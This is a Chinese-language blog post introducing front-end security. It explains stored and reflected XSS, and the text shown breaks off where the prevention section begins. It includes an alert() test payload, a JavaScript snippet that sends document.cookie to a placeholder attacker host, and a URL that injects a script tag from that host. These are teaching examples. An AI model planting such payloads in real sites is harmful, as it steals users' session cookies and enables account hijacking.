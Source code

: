 ```yaml
---
title: 前端安全
date: 2020-11-27 20:21:54
tags:
  - 安全
categories: 
  - 安全
cover: https://s3.ax1x.com/2020/11/20/DQwbfs.md.jpg
abbrlink: 202029
---
```


# 前言
今天来聊一聊关于前端安全方面的问题，身为前端开发也是要对安全方面有一定的了解的。在安全方面这些属于常识。

# XSS
全名为（Cross Site Scripting）跨站脚本攻击，缩写原本应为CSS，但和那个CSS重名了，所以就改叫` XSS `。跨站脚本攻击是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的非本站点HTML标签或JS进行的一种攻击。
跨站脚本攻击的影响：
+ 利用虚假输入表单骗取用户个人信息
+ 利用恶意脚本窃取用户Cookie，被害者在不知情情况下帮助攻击者发送恶意请求

XSS 攻击主要分为两种：**存储型**和**反射型**

## 存储型
存储型XSS攻击大致需要经过如下步骤：
1. 黑客将JS脚本提交到网站的数据库中
2. 用户请求网站请求到了黑客设置的恶意JS脚本
3. 用户使用被**存储**恶意脚本的网站，脚本会将用户相关信息发到黑客的服务器

我们现在来充当一次黑客，来看一下攻击的流程。比如在一些需要提交信息到服务器的网站的输入框中输入一个JS脚本代码。

<input value="<script>alert(1)</script>"/>

然后我们提交这个内容给服务器，那么我们就在这个网站的数据库中添加了这一段js脚本，那么会发生什么事呢？接下来访问这个网站的用户都会显示这个alert信息。那我们要是做得在过火一些呢？

这次我们在输入框中输入一段我们写好的js脚本，这里假如这段脚本会窃取用户的cookie信息。
```js hack.js
let img = new Image();
img.src="http://eyijiaoben/xxxxx"+document.cookie
```
你应该可以猜到了接下来会发生什么了，我们向数据库注入这段脚本后，登录到这个页面的用户都会运行这个脚本，向我们指定的这个地址发送请求，并且携带自己的cookie给黑客，这样黑客就窃取到了用户的cookie。黑客拿到这个cookie之后就会做一些非法操作，后果可想而知。

这就是存储型攻击，原理其实很简单，就是在服务端的数据库中植入一个自己的恶意脚本来完成的。

## 反射型
反射型攻击的通常场景是黑客把自己写好的恶意网站发送给受害者，受害者进入这个网站之后就收到了攻击。

与上次的输入框植入脚本不同，这次我们的植入方式是使用**URL参数注入的方式**，很多网站上一些页面的显示都是在url中传递的参数，这时我们可以伪装一个网站` http://xxx.xx/param=<script src="http://eyijiaoben/xxxxx"></script>? `。
受害者打开我们这个网站之后，并不会在页面显示param，而是去发送网络请求到这个恶意脚本的网址，然后发生的事情就和上面一样了，黑客就窃取到了用户的cookie。

但好在反射型攻击并不会将恶意脚本存储在服务器中，所以危害相较于存储型攻击是比较小的。

## 对抗手段
讲完了如何实现一次XSS攻击后，我们来说一下怎么预防XSS攻击